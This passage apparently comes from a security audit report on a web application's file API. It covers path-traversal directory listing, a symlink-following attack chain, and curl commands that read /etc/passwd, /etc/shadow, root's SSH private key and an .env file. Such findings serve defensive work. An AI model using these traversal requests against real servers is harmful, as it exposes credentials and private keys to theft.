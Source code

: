 **Vulnerability Type:** Information Disclosure  
**Severity:** **HIGH**  
**CVSS 3.1 Score:** 7.5 (High)  

#### Location Details:
- **Function:** `list_directory()`
- **Line Numbers:** 339, 343

#### Attack Examples:
```bash
# List /etc directory
GET /api/list_directory?dir=../../../../etc/

# List root directory
GET /api/list_directory?dir=../../../../

# List user home directories
GET /api/list_directory?dir=../../../../home/
```

---

### 8. Symlink Attack Vector

**Vulnerability Type:** Symlink Following  
**Severity:** **HIGH**  
**CVSS 3.1 Score:** 7.8 (High)  

#### Location Details:
- **Function:** `create_symlink()`
- **Line Numbers:** 375-376, 380

#### Attack Chain:
```json
// Step 1: Create symlink to /etc/passwd
{
    "source": "../../../../etc/passwd",
    "link_name": "passwd_link"
}

// Step 2: Download via normal endpoint
GET /api/download/passwd_link
```

---

## Attack Scenario Matrix

### Scenario 1: Complete File System Compromise
```bash
# 1. Read sensitive files
curl http://target/api/download/../../../../etc/passwd
curl http://target/api/download/../../../../etc/shadow

# 2. Extract SSH keys
curl http://target/api/download/../../../../root/.ssh/id_rsa

# 3. Read application config
curl http://target/api/download/../.env
```
